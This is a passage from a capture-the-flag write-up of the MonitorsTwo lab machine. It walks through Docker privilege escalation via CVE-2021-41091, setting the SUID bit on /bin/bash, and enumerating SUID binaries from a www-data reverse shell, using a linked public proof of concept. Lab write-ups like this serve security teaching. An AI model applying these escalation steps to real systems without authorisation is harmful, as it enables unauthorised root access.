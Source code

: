 ### Checking Vulns

```console
marcus@monitorstwo:~$ uname -r
5.4.0-147-generic
marcus@monitorstwo:~$ docker version
Client:
 Version:           20.10.5+dfsg1
 API version:       1.41
 Go version:        go1.15.9
...SNIP
```

There are 3 CVE's that were plaguing this machine at some point. We know that `2020-25706` is no longer relevant as our Cacti version is 1.2.22. `2021-33033` looks like it may still be in play, but the date for the CVE is 2021 and our machine was created 2023. We will need to focus our attention on `2021-41091`.

### CVE-2021-41091

This [CVE](https://nvd.nist.gov/vuln/detail/CVE-2021-41091) is insufficient restricted permissions, allowing directory traversal/command execution/priv escalation. The POC that we will abuse is by [UncleJ4ck](https://github.com/UncleJ4ck/CVE-2021-41091).\


In short we need to have a two sessions on the target. One in the docker container, and a second as a regular user. In the docker container we elevate our privileges and then use that to allow the unprivileged non-dockered user to execute it. We do that by running the `exp.sh` script on the regular user account and it will confirm that the machine is vulnerable and try to spawn a shell as root.

### Not enough permissions

We start by going back to our `www-data` reverse shell since it was in the container. To follow the POC we need to run the command `chmod u+s /bin/bash` but if we try to do that without elevating we get an error:\


```console
bash-5.1$ chmod u+s /bin/bash
chmod u+s /bin/bash
chmod: changing permissions of '/bin/bash': Operation not permitted
```

We see we don't have the proper permissions, so we need to find a way to elevate.

### Find SUID binaries

```console
bash-5.1$ find / -perm -4000 2>/dev/null
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/sbin/capsh
/bin/mount
/bin/umount
/bin/bash
/bin/su
```
